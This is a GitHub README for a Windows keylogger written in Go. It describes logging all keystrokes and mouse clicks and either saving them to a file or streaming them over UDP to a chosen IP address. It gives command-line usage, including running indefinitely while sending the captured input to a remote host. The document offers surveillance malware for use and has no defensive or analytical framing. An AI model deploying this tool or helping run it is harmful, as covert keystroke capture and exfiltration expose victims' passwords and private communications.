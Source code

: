 # Go-Keylogger

This project is a keylogging tool written in the Go language intented to work on the Windows 10 OS. It is able to log all key strokes and mouse clicks, and and save logs to a file or send data using UDP to a given IP address. This is done using only Go's standard libraries.

# Usage

Run keylogger.exe on the command line with three command line arguments. The format is as follows:

```.\keylogger.exe [mode] [info] [duration]```

* Mode: Either 0 or 1, 0 for save to given file, and 1 for send to given IP address
* Info: If the mode is 0, this is used to provide a file name/path. If the mode is 1, this is used to provide an IP address.
* Duration: Number of seconds to run for. If -1, the application will run indefinitely until manually terminated.

For intance, to run for 60 seconds and save the data to a file called "log.txt", it should be:

```.\keylogger.exe 0 log.txt 60```

To run indefinitely and send to the host at 192.168.1.1, it should be:

```.\keylogger.exe 1 192.168.1.1 -1```
